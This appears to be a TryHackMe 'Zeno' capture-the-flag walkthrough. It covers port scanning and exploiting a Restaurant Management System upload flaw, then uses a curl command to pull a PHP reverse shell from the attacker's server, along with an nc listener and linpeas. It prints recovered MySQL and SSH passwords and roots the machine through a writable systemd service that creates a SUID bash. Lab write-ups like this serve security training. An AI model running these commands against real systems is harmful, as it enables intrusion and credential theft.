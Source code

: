 # Zeno

R**oom Link:** [https://tryhackme.com/room/zeno](https://tryhackme.com/room/zeno)



## **Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/12340- HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:12340 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Restaurant Management System Exploit

**Exploit:** [https://www.exploit-db.com/raw/47520](https://www.exploit-db.com/raw/47520)

The code needed some fixing up

**From**

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**To**

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python exploit.py http://$VICTIM:12340/rms/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```



**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Browser**

```
http://$VICTIM:12340/rms/images/reverse-shell.php?cmd=curl%20-O%20http://10.10.57.58:81/php-reverse-shell.php
```



**Kali**

```
nc -lvnp 1337
```

**Browser**

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl -O http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## MySQL

**Victim**

```
mysql -u root -pveerUffIrangUfcubyig
```

**Victim(mysql)**

```
show databases;
use dbrms;
show tables;
select * from members;
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Edwards password was still not found

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I went back to linpeas and found another password, it's for a different user but it still worked.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/22- SSH

**Kali**

```
ssh edward@$VICTIM
Password: FrobjoodAdkoonceanJa
```



**Victim(edward)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim(apache)**

```
find /etc -type f -perm /g=w -exec ls -l {} + 2> /dev/null 
```

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

**Victim(apache)**

```
vi /etc/systemd/system/zeno-monitoring.service
```

**From**

<figure><img src="../../.gitbook/assets/image (808).png" alt=""><figcaption></figcaption></figure>

**To**

```
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /home/edward/bash_root; chmod +xs /home/edward/bash_root'

[Install]
WantedBy=multi-user.target
```

<figure><img src="../../.gitbook/assets/image (810).png" alt=""><figcaption></figcaption></figure>

**Victim(edward)**

```
sudo /usr/sbin/reboot
```

**Kali**

```
ssh edward@$VICTIM
Password: FrobjoodAdkoonceanJa
```

**Victim(edward)**

```
ls -lah
./bash_root -p
```

<figure><img src="../../.gitbook/assets/image (811).png" alt=""><figcaption></figcaption></figure>
